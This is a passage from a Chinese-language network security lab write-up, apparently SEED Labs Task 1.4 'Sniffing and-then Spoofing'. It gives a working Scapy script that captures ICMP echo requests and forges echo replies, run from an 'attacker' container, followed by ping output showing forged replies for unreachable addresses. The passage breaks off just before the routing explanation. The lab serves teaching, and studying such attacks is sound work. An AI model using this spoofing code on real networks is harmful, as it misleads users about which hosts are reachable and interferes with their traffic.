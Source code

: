 可以看出，我们能够实现 traceroute 的功能。`8.8.8.8` 在 16 跳后到达。而 `1.2.3.4` 是不存在的地址，经过 8 跳后到达 `122.96.66.73`，此后就收不到回复了。

### Task 1.4: Sniffing and-then Spoofing

编写 `sniff_spoof.py`：

```python
#!/usr/bin/env python3  
from scapy.all import *  

def spoof_pkt(pkt):
    if ICMP in pkt and pkt[ICMP].type == 8:
        
        ip = IP(src=pkt[IP].dst, dst=pkt[IP].src, ihl=pkt[IP].ihl)
        icmp = ICMP(type=0, id=pkt[ICMP].id, seq=pkt[ICMP].seq)
        data = pkt[Raw].load
        newpkt = ip/icmp/data 
        
        send(newpkt, verbose=0)  

pkt = sniff(iface='br-9fee8832d7a6', filter='icmp', prn=spoof_pkt)
```

将该程序在 attacker 上运行。

在 host 上 ping 不同的 ip：

```shell
# ping 1.2.3.4 -c 1
PING 1.2.3.4 (1.2.3.4) 56(84) bytes of data.
64 bytes from 1.2.3.4: icmp_seq=1 ttl=64 time=102 ms

--- 1.2.3.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 101.621/101.621/101.621/0.000 ms
# ping 10.9.0.99 -c 1
PING 10.9.0.99 (10.9.0.99) 56(84) bytes of data.
From 10.9.0.5 icmp_seq=1 Destination Host Unreachable

--- 10.9.0.99 ping statistics ---
1 packets transmitted, 0 received, +1 errors, 100% packet loss, time 0ms
# ping 8.8.8.8 -c 2
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=64 time=23.7 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=111 time=220 ms (DUP!)
64 bytes from 8.8.8.8: icmp_seq=2 ttl=64 time=28.4 ms

--- 8.8.8.8 ping statistics ---
2 packets transmitted, 2 received, +1 duplicates, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 23.712/90.615/219.692/91.291 ms
```

我们可以查看 ip route 来解释这一现象：
